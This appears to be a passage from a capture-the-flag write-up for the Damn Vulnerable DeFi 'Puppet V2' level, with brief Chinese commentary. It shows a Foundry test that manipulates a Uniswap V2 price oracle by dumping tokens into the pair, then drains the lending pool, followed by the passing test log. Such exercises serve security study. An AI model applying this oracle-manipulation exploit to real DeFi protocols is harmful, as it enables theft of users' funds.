 ```
    function testExploit_PuppetV2() public {
        emit log("-------------------------- before attack ---------------------------------");
        uint256 v2PairBalance = dvt.balanceOf(address(puppetV2Pool));
        emit log_named_decimal_uint("v2PairBalance:", v2PairBalance, 18);
        emit log_named_decimal_uint("attacker should eth to brrow", puppetV2Pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE), 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        weth.deposit{value: ATTACKER_INITIAL_ETH_BALANCE}();

        uint256 swapOutETH = uniswapV2Router.getAmountOut(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_WETH_RESERVE);
        emit log_named_decimal_uint("attacker could swap out ETH", swapOutETH, 18);

        dvt.transfer(address(uniswapV2Pair), ATTACKER_INITIAL_TOKEN_BALANCE);
        if (address(dvt) < address(weth)){
            uniswapV2Pair.swap(0, swapOutETH, address(attacker), "");
        }
        else{
            uniswapV2Pair.swap(swapOutETH, 0, address(attacker), "");
        }

        uint256 shouldETH = puppetV2Pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should ETH", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        weth.approve(address(puppetV2Pool), shouldETH);
        puppetV2Pool.borrow(POOL_INITIAL_TOKEN_BALANCE);
        
        vm.stopPrank();

        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```
下图是攻击成功输出的日志：
    
    [PASS] testExploit_PuppetV2() (gas: 205882)
      Logs:
        🧨 Let's see if you can break it... 🧨
        -------------------------- before attack ---------------------------------
        v2PairBalance:: 1000000.000000000000000000
        attacker should eth to brrow: 300000.000000000000000000
        -------------------------- after attack ---------------------------------
        attacker could swap out ETH: 9.900695134061569016
        attacker should ETH: 29.496494833197321980
        attacker actually hold ETH amount: 0.000000000000000000
        
      🎉 Congratulations, you can go to the next level! 🎉
